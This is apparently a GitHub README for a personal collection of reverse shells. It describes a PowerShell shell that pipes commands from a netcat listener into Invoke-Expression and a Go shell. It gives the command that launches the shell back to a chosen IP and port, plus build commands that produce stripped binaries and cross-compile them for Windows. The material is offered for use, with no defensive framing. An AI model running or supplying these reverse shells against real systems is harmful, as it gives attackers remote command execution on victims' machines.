 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1

pwsh_revshell -ip 127.0.0.1 -port 3333</code>

# Golang

Golang reverse shell. Change /bin/bash string to powershell,cmd,/bin/sh, or whatever shell for whatever OS you need.
To Compile:

Linux:
<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:
<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>
